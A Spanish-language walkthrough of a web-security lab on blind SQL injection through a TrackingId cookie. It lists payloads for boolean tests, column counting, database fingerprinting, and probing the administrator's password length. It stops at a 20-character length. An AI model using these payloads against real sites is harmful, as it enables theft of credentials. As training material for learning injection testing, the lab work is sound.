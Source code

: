 Tenemos el siguiente laboratorio:

Donde vemos que la respuesta esperable y normal es un welcome back:
![[Pasted image 20240518101727.png]]
Si interceptamos alguna petición, vemos que hay un TrackingId:
![[Pasted image 20240518101609.png]]
Si añadimos una comilla justo después de la cookie, vemos que ya no se muestra dicho mensaje de welcome:
![[Pasted image 20240518101821.png]]
Pero si insetamos el siguiente payload, ahora vuelve a mostrarse el mensaje de bienvenida:
```bash
TrackingId=AloAGb7uBq1Abq2U' AND 1=1-- -
```
![[Pasted image 20240518101915.png]]
Ahora vamos a identificar las columnas de la tabla, por lo que usamos primero ORDER BY:
```bash
TrackingId=AloAGb7uBq1Abq2U' ORDER BY 1-- -
```
![[Pasted image 20240518102423.png]]
Tras probar con ORDER BY 2, 3, 4 y 5, vemos que solo funciona con ORDER BY 1, por lo que tenemos una columna:
```bash
TrackingId=AloAGb7uBq1Abq2U' ORDER BY 1-- -
```
![[Pasted image 20240518102547.png]]
Ahora, para obtener más información, usaremos la siguiente chetseet:
```bash
https://portswigger.net/web-security/sql-injection/cheat-sheet
```
![[Pasted image 20240518102703.png]]
Donde probamos el siguiente payload para comprobar ante qué base de datos tenemos, la cual se trata de una PostgreSQL:
```bash
TrackingId=AloAGb7uBq1Abq2U' UNION SELECT version()-- -
```
![[Pasted image 20240518102943.png]]
Ahora vamos a comprobar si el usuario administrador existe:
```bash
TrackingId=' UNION SELECT 'prueba' FROM users where username='administrator'-- -
```
![[Pasted image 20240518103628.png]]
Ahora vamos a ir comprobando la extensión de la contraseña con el siguiente payload:
```bash
TrackingId=' UNION SELECT 'test' FROM users where username='administrator' AND LENGTH(password) > 15-- -
```
![[Pasted image 20240518103924.png]]
En este punto, vamos probando hasta comprobar que la contraseña es igual a 20 caracteres:
```bash
TrackingId=' UNION SELECT 'test' FROM users where username='administrator' AND LENGTH(password) = 20-- -
```
![[Pasted image 20240518104021.png]]

